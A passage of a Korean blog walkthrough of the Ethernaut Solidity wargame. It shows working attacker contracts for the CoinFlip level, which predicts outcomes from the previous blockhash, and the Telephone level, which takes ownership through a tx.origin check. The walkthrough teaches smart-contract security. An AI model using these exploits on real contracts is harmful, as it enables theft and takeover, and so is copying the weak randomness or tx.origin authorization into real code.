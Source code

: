 
   function guess() public onlyOwner returns (bool){

       uint256 blockValue = uint256(blockhash(block.number-1));
       uint flip = blockValue / FACTOR;
       bool side = flip == 1 ? true : false;

       result = coinFlip.flip(side);
       return result;
   }
}

contract CoinFlip {
    function flip(bool _guess) public returns (bool);
}
{% endhighlight %}

이렇게 되면 side의 값은 _guess 값과 항상 같은 값이 되므로 10번, 100번, 1000번 항상 이기는 게임이 되는 것입니다.
이를 위해서는 크롬의 콘솔에서는 할 수 없고 이미 배포된 CoinFlip 컨트랙트의 주소를 참조하여 [Remix][remix]에서 HackCoinFlip 컨트랙트를 Ropsten에 배포한 후
HackCoinFlip의 guess 메소드를 10번 실행하면 되겠습니다(Remix에서 메소드 실행).


### 4. Telephone (difficulty 1/10)

이번 단계는 전화 교환원이 힌트입니다. 전화를 거는 사람과 중간에서 그 전화를 받아서 다른 사람에게 연결해 주는 교환원이 있는 상황과 유사하다고 할 수 있겠습니다.
이 문제를 통해 `tx.origin` 과 `msg.sender`의 차이점을 이해할 수 있어야 합니다.

역시 주어진 컨트랙트의 소유권을 가져오는 것이 목표입니다. 다음과 같은 메소드가 있습니다. 일반적으로 트랜잭션을 전송하는
계정은 msg.sender가 되므로 tx.origin과 항상 일치할 것으로 생각합니다.

{% highlight javascript %}
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
{% endhighlight %}

그런데 만약 다른 컨트랙트를 통해 이 메소드를 호출할 경우에도 msg.sender와 tx.origin이 일치할까요? 그렇지 않습니다!

{% highlight javascript %}
pragma solidity ^0.4.25;

contract HackTelephone {

    address public owner;
    Telephone public telephone;

    constructor(address _addr) public {
        owner = msg.sender;
        telephone = Telephone(_addr);
    }

    function pickUpThePhone() public {
        telephone.changeOwner(owner);
    }
}

contract Telephone {
    function changeOwner(address _owner) public;
}
{% endhighlight %}


[ethernaut]: https://ethernaut.zeppelin.solutions/
[ethernaut-gh]: https://github.com/OpenZeppelin/ethernaut
[faucet]: https://faucet.metamask.io/
[remix]: http://remix.ethereum.org/
[safemath]: https://github.com/OpenZeppelin/openzeppelin-solidity/blob/master/contracts/math/SafeMath.sol
[storage]: https://solidity.readthedocs.io/en/v0.4.25/miscellaneous.html?highlight=storage
[ropsten-etherscan]: https://ropsten.etherscan.io/tx/0x4c842eb4222b8ebdef4b31803821411b8e0051566b7a828c0cad8761b076718e#internal